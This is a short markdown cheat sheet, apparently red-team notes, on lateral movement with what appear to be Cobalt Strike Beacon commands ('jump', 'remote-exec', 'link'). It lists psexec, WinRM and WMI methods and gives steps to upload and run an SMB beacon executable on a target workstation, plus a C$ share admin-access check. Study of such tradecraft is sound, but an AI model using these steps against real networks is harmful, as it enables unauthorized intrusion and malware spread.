 # Lateral Movement
For lateral movement you can use `jump`, `remote-exec` and some of `Seatbelt's commands`.

Don't forget to test local admin access on a target `listing the C$ share` remotely!

## jump
  - The syntax is jump [method] [target] [listener]
  - Type `jump` to see a list of methods
  ```
  -------           ----  -----------
  psexec            x86   Use a service to run a Service EXE artifact
  psexec64          x64   Use a service to run a Service EXE artifact
  psexec_psh        x86   Use a service to run a PowerShell one-liner
  winrm             x86   Run a PowerShell script via WinRM
  winrm64           x64   Run a PowerShell script via WinRM 
  ```

## remote-exec 
- The syntax is remote-exec [method] [target] [command]. 
- Type `remote-exec` to see a list of methods.
```
 psexec             Remote execute via Service Control Manager
 winrm              Remote execute via WinRM (PowerShell)
 wmi                Remote execute via WMI
```

## Windows Management Instrumentation (WMI)
  - Generate an x64 Windows EXE for the SMB listener
  - Upload it to the target by cd'ing to the desired path
  - Use the upload command.
  - Run ```remote-exec wmi workstation-1 C:\Windows\beacon-smb.exe``` i.e
  - Connect to the process using ```link workstation-1```
